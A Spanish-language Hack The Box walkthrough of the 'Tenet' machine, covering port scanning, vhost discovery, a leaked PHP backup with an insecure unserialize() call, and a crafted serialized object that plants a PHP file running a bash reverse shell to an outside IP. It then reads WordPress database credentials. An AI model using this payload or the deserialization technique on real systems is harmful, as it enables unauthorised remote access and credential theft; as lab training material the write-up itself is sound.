```yaml
---
title: "Tenet - Hack The Box"
layout: single
excerpt:
show_date: true
classes: wide
header:
  teaser: "https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/tenet/data/Tenet.png?raw=true"
  teaser_home_page: true
  icon: "assets/images/icons/Hackthebox2.png"
categories:
  - Writeup
  - HackTheBox
tags:
  - Deserialization Attacks
  - Virtual Hosting
  -
---
```


<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/tenet/data/TenetHTB.png">
</p>

 La máquina **Tenet** es una máquina virtual vulnerable de la plataforma HackTheBox con un nivel de dificultad **medio** una calificación en el rank de 4.6, **5039 USER OWNS** y **4475 SYSTEM OWNS** con la ip **10.10.10.223** y un sistema operativo **Linux**.


## Port Scan

Para empezar, hice un escaneo con la herramienta **Nmap** para encontrar los puertos abiertos disponibles en la máquina con **[Ip:10.10.10.214]** utilizando los parámetros:
  - **-p-:**    Escaneo a toda la gama de puertos (65536).
  - **-n:**     No hacen la resolución del DNS.
  - **-T5:**    El parámetro más agresivo y ruidoso pero más rápido para hacer una exploración rápida.
  - **-v:**     Aumenta el nivel de los mensajes verbose.
  - **--open:** Muestra sólo los puertos con un estatus abierto.
  - **-oG:**    Guarda la el output en formato Grepeable.

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/tenet/scan/scanPort.png?raw=true">
</p>


Una vez que hicimos el escaneo de puertos con la herramienta **ExtractPort**, vemos que los puertos que destacaron en este caso fueron **22,80**:

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/tenet/scan/Ports.png?raw=true">
</p>


Una vez identificados los puertos abiertos, realizaremos un escaneo de versiones y servicios de estos puertos con la herramienta nmap configurando los siguientes parámetros:

  - -sC: Script de enumeración básica de sondeo en puertos y servicios alojados.
  - -sV: Detección de versiones en servicios alojados en puertos.
  - -p : Puertos a inspeccionar.
  - -oN: Formatos de Nmap en los que se guardará el archivo.

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/tenet/scan/PortServ.png?raw=true">
</p>

De el escaneo de puertos y servicios no pudimos recolectar mucha informacion solo que en el puerto **22** esta alojado un servicio **ssh** y en el puerto **80** esta alojado un servicio **HTTP**, asi que el camino que seguiremos sera por este serviciom entrando al servicio por el navegador se logra ve lo siguiente:

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/tenet/scan/web.png?raw=true">
</p>

Un camino para poder descubrir subdirectorios es haciendo un **fuzzing** en la web en este caso usare la herramienta **gobuster**.


Haciendo el fuzzing pude descubrir que hay un wordpress corriendo en la web:

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/tenet/scan/wordpress.png?raw=true">
</p>

Al entrar a la ruta veo que la pagina se ve como si estuviera mal montada lo que puede ser un indicio de que probablemente se esta haciendo virtual hosting y entrando al código fuente de la pagina de puedo ver efectivamente que en algunas parte del código fuente se hace mención a **tenet.htb** así que agrego este host al **/etc/hosts** y al entrar volver a entrar a la pagina ya carga correctamente.

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/tenet/scan/web2.png?raw=true">
</p>

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/tenet/scan/web3_000.png?raw=true">
</p>

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/tenet/scan/web4.png?raw=true">
</p>

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/tenet/scan/web5.png?raw=true">
</p>

Ya que podemos ver bien la pagina empezamos a enumerar y buscar información útil. En la pagina se encuentran unos posts y en uno de ellos se menciona que la pagina esta siendo migrada y ese mismo post tiene un comentario de un usuario "**neil**" el cual menciona lo siguiente:


>  did you remove the sator php file and the backup?? the migration program is incomplete! why would you do this?!
>
>-Neil

Ya sabiendo esto sabemos que puede existir un un sator.php y un archivo backup, haciendo fuzzing con gobuster no pude encontrar ningún recurso de estos, ya que tocamos el tema de visual hosting puede que esta misma tenga un subdominio así que probando **backup.tenet.htb** y **sator.tenet.php** ya que son los datos que conocemos y estamos buscamos.

Una vez que los agregamos al **/etc/hosts** y entramos vemos que el subdominio **sator.tenet.htb** nos funciono y ahí se encuentra el recurso **sator.php**.

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/tenet/scan/sator.png?raw=true">
</p>

En el post se menciona que hay un backup de este recurso así que intente ver si existía un archivo **.bak** y efectivamente así fue había un recurso **sator.php.bak**, este archivo lo pude descargar en mi maquina y contenía lo siguiente:

```bash
<?php

class DatabaseExport
{
	public $user_file = 'users.txt';
	public $data = '';

	public function update_db()
	{
		echo '[+] Grabbing users from text file <br>';
		$this-> data = 'Success';
	}


	public function __destruct()
	{
		file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
		echo '[] Database updated <br>';
	//	echo 'Gotta get this working properly...';
	}
}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();


?>
```

Lo que hace este archivo en php es deserializar un contenido que es envido por **GET** a **aerpo** y el contenido serializado se enviá a la clase **DatabaseExport** ya deserializado lo que hace la clase es actualizar un archivo users.txt que es el nombre que viene ya predefinido y la data que esta en blanco de este archivo pero con la funcion **update_db()** actualiza la data de **users.txt** a **Success** y luego con la clase **__destruct()** elimina el **users.txt** antiguo.

Si entramos a archivo en la url vemos que existe:

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/tenet/scan/users.png?raw=true">
</p>

Encontre un post el cual explica a detalle como funciona una [**Exploiting PHP Deserialization**](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a) en el post explica muy bien como explotar esto para poder conseguir un **RCE**.


Con lo visto en la web arme el siguiente archivo php para poder crear un arachivo php el cual contenga una **revershell**

```php
class DatabaseExport{
	public $user_file = 'winsad.php';
        public $data = '<?php exec("/bin/bash -c \'bash -i >& /dev/tcp/10.10.15.125/443 0>&1\'"); ?>';
}

print urlencode(serialize(new DatabaseExport));
```

Lo que hace es crear la clases **DatabaseExport** la cual contiene los mismo valores que requiere el archivo y serializar **sator.php** para poder deserializarlo y actualizar la supuesta base de datos y el contenido es la revershell a mi equipo.
Una vez que ejecuto el php con **php -a** y me pasa la data serializada voy a al recurso **sator.php** le mando por get y a la variable **aerpo** la data serializada:

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/tenet/intrusion/seria.png?raw=true">
</p>

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/tenet/intrusion/get.png?raw=true">
</p>

Como se ve en la pagina que **Database updated** intuyo que todo salio correcto así que en teoría si me dirijo a la ruta **http://sator.tenet.htb/winsad.php** el contenido que tiene este archivo php se interpretara dándome la shell. Para esto yo ya estaba en mi maquina en escucha por el puerto 443 que es el puerto que especifique en el php y yendo a la url se ve que efectivamente se interpreta el php y me da la conexión y con ella la shell.

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/tenet/intrusion/load.png?raw=true">
</p>

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/tenet/intrusion/shell.png?raw=true">
</p>

Ya que estamos dentro y yendo a la ruta **/var/www/html/wordpress** puedo encontrar un archivo **wp-config.php** el cual contenia las credenciales del usuario **neil** y con estas misma entramos como ese usuario.

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/tenet/intrusion/neil.png?raw=true">
</p>

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/tenet/intrusion/neilU.png?raw=true">
</p>
